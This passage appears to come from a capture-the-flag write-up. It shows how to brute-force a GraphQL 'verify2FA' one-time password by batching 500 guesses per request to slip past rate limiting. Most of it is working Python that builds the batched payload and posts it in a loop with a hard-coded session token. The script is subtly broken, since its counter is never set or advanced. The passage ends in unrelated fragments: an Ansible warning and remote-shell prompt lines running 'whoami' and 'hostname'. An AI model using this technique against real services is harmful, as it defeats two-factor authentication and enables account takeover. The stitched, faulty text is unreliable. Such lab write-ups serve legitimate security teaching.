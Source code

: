 This GraphQL mutation queries a `verify2FA` function with the provided one-time password (OTP). The function is expected to return a message and a token if the OTP is valid.

The first thing I tried was to bruteforce but there is a ratelimit implemented which makes it quite impossible as the the OTP expires after 2 minutes.

![A screenshot which shows that we’re being rate-limited](/assets/img/stack-the-flags-2022/rate-limit.png)

Since we’re not able to bruteforce it, I tried using GraphQL Batching, which improves performance by reducing the number of round trips between the client and the server. However, if not properly implemented, it can also create vulnerabilities that can be exploited. In our case, we will send a batch request containing a mix of legitimate and malicious queries. The server processes the legitimate queries and returns the results to us. In simpler words, we will be attempting to exploit a vulnerability in a GraphQL server that allows batching of multiple queries in a single request.

We will create a function that generates a GraphQL mutation containing multiple `verify2FA` queries with different one-time password (OTP) values and constructs a GraphQL mutation containing these queries and returns it. This is needed because we won’t be able to send all the OTP values at once.

```python
def gen_payload(i):
    final=""
    for token in ["%04d" % I for I in range(i,i+500)]:
        single ='\n    jaja'+token+' : verify2FA(otp: \"'+token+'\"){\n        message,\n        token    }\n '
        final+=single
    payload = 'mutation {\n   '+final+'  \n}'
    return payload
```

Then we just keep bruteforcing until we get a hit and get the new token.

```python
import requests
while True:
    session = requests.session()
    burp0_url = "http://10.129.255.194:80/graphql"
    burp0_cookies = {"session": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImpvaG4iLCJvdHBfdmVyaWZpY2F0aW9uIjpmYWxzZSwiaWF0IjoxNjcwMDIwMDYyLCJleHAiOjE2NzAwMjM2NjJ9.r624Ftvgxhuo7rNPeI1JeJpQzVTXON6cNpN0EAmABiE"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://10.129.255.194", "Referer": "http://10.129.255.194/admin/otp_verfification", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
    burp0_json={"query": gen_payload(i)}
    rar = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
    print(rar.text)
    if ("token" in rar.text):
        print("hurray: ",i)
```

[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname